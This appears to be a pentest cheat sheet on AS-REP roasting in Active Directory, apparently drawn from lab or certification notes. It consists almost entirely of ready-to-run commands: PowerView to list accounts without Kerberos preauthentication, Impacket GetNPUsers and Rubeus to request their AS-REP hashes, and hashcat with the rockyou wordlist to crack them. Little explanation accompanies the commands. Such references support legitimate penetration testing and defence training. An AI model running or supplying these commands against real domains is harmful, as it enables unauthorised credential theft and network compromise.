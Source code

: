 # Identify vulnerable users
```bash
Get-DomainUser -PreauthNotRequired -verbose #List vuln users using PowerView
```

-----------------------

# Impacket
```bash
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/dave:password
impacket-GetNPUsers jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast

impacket-GetNPUsers -dc-ip 192.168.50.70 jurassic.park/ -usersfile users.txt -format hashcat
```

-----------------------

# Rubeus
```bash
.\Rubeus.exe asreproast /nowrap [/user:username]
```

-----------------------

# Cracking asreroast hashes
```bash
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
